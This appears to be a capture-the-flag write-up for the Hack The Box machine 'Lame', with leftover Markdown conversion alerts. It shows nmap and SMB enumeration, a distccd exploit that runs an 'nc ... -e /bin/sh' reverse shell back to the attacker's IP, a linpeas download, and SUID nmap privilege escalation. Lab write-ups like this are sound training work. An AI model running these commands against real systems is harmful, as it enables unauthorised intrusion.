 # HTB_Writeups - Lame

<!-----
NEW: Check the "Suppress top comment" option to remove this info from the output.

Conversion time: 2.643 seconds.


Using this Markdown file:

1. Paste this output into your source file.
2. See the notes and action items below regarding this conversion run.
3. Check the rendered output (headings, lists, code blocks, tables) for proper
   formatting and use a linkchecker before you publish this page.

Conversion notes:

* HTML and Markdown from Docs version 1.0
* Sun Aug 21 2022 03:31:13 GMT-0000 (UTC)
* Source doc: Gus's Notebook conv
* This document has images: check for >>>>>  gd2md-html alert:  inline image link in generated source and store images to your server. NOTE: Images in exported zip file from Google Docs may not appear in  the same order as they do in your doc. Please check the images!

----->


<p style="color: red; font-weight: bold">>>>>>  gd2md-html alert:  ERRORs: 0; WARNINGs: 0; ALERTS: 11.</p>
<ul style="color: red; font-weight: bold"><li>See top comment block for details on ERRORs and WARNINGs. <li>In the converted Markdown or HTML, search for inline alerts that start with >>>>>  gd2md-html alert:  for specific instances that need correction.</ul>

<p style="color: red; font-weight: bold">Links to alert messages:</p><a href="#gdcalert1">alert1</a>
<a href="#gdcalert2">alert2</a>
<a href="#gdcalert3">alert3</a>
<a href="#gdcalert4">alert4</a>
<a href="#gdcalert5">alert5</a>
<a href="#gdcalert6">alert6</a>
<a href="#gdcalert7">alert7</a>
<a href="#gdcalert8">alert8</a>
<a href="#gdcalert9">alert9</a>
<a href="#gdcalert10">alert10</a>
<a href="#gdcalert11">alert11</a>

<p style="color: red; font-weight: bold">>>>>> PLEASE check and correct alert issues and delete this message and the inline alerts.<hr></p>



    Lame 


    Wednesday, July 27, 2022 9:27 PM 


    Started off with a nmap scan.  


    nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3 


    TEs3 


    While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done. 


    We get back some nice info to start us off. 


    Port 80 isn't open so there was no site for me to check. 


    But there was other ports open such as port 21 with the version number of vsftpd 2.3.4 (This version of vsftpd is vulnerable to backdoor command execution CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck again then go back and try to repeat your steps to make sure you didn't make a typo somewhere. 



<p id="gdcalert1" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image1.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert2">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image1.png "image_tooltip")


<p id="gdcalert2" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image2.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert3">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image2.png "image_tooltip")
I see that smb is open. 139/445. I run smbmap -H 10.10.10.3 and get back some users.  



<p id="gdcalert3" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image3.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert4">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image3.png "image_tooltip")



    we can see that tmp is READ, WRITE. Lets login and see what we can find. 


    I use smbclient <span style="text-decoration:underline;">\\\\10.10.10.3\\tmp and we get a hit</span>. I use lsto see what we can find. Unfortunately there is nothing here either. We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking. 


     HTB Page 1 



<p id="gdcalert4" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image4.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert5">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image4.png "image_tooltip")


I go back to the nmap results and see port 3632 is open and it gave us the version of application running. distccd v1 

I go to google and search for "distccd v1 exploit" first link brings us to <span style="text-decoration:underline;">https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855</span> 

after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is command, host, port 

If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.  

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did chmod +x CVE-2004-2687.py 

the file is ready to be used. First I started a listener on my attacking machine with nc -lvnp 9001 and then used the following command 

./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" No good, got errors. Then I tried. 

python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" I got a connected to remote service Ok but then the 

socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.  

So I was going to work my way down from python3 to python. Next up, 

python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" Success, we get a shell! 



<p id="gdcalert5" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image5.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert6">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image5.png "image_tooltip")




<p id="gdcalert6" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image6.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert7">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image6.png "image_tooltip")


Let's upgrade the shell. I used the following. 

python -c 'import pty; pty.spawn("/bin/bash")' python3 and python2 didn't work.  

export TERM=xterm 

stty raw -echo && fg 

enter 

enter 

We're a normal user daemon. I started off with sudo -l but it asked for a password. Let's move on. 

I look around a bit and cd /home directory and do a ls and see what's there. Nothing good in the user directory but I did go into makis and find the user.txt file. I do a cat user.txt at it and we get out our first flag.  

<p id="gdcalert7" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image7.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert8">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image7.png "image_tooltip")




<p id="gdcalert8" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image8.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert9">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image8.png "image_tooltip")


Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh 

I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine. I use python3 -m http.server 80 get the server up and running. 

On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox. 

The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file. 

I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.  HTB Page 2 



<p id="gdcalert9" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image9.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert10">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image9.png "image_tooltip")


<p id="gdcalert10" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image10.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert11">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image10.png "image_tooltip")


<p id="gdcalert11" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image11.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert12">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image11.png "image_tooltip")



    the /usr/bin/nmap suid 


    I head over to <span style="text-decoration:underline;">https://gtfobins.github.io/ </span>and search for nmap 


    I cd /usr/bin where the suid is located. 


    I start off with shell code (a) and nothing happened. So I keep going down the list.  


    Shell (b) worked! 
